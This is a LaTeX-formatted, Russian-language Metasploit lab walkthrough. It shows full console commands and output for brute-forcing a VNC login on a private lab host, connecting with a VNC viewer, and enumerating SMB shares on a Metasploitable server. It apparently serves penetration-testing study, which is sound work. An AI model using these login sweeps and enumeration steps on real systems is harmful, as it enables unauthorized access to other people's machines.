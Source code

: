 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{verbatim}
msf > search vnc

Matching Modules
============

   Name                                               Disclosure Date  Rank     Description
   ----                                                          ---------------  ----     -----------
   auxiliary/admin/vnc/realvnc_41_bypass              2006-05-15       
   normal   RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                     
   normal   VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                 
   normal   VNC Authentication None Detection

...

msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 192.168.0.155
RHOSTS => 192.168.0.155
msf auxiliary(vnc_login) > set THREADS 24
THREADS => 24
msf auxiliary(vnc_login) > run

[*] 192.168.0.155:5900 - Starting VNC login sweep
[+] 192.168.0.155:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


root@kali:~# xtightvncviewer 192.168.0.155
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
\end{verbatim}

\paragraph{Получить список директорий в общем доступе по протоколу SMB}
~

\begin{enumerate}
\item При помощи команды search находим подходящий модуль
\item Устанавливаем модуль в качестве используемого
\item Устанавливаем параметры модуля (количество ядер и адрес удаленного хоста)
\item запускаем модуль
\end{enumerate}

\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.0.155
RHOSTS => 192.168.0.155
msf auxiliary(smb_enumshares) > set THREADS 24
THREADS => 24
msf auxiliary(smb_enumshares) > run

[+] 192.168.0.155:445 - print$ - (DISK) Printer Drivers
[+] 192.168.0.155:445 - tmp - (DISK) oh noes!
[+] 192.168.0.155:445 - opt - (DISK) 
[+] 192.168.0.155:455 - IPC$ - (IPC) IPC Service (metasploitable 
server (Samba 3.0.20-Debian))
[+] 192.168.0.155:445 - ADMIN$ - (IPC) IPC Service 
(metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}
\end{document}

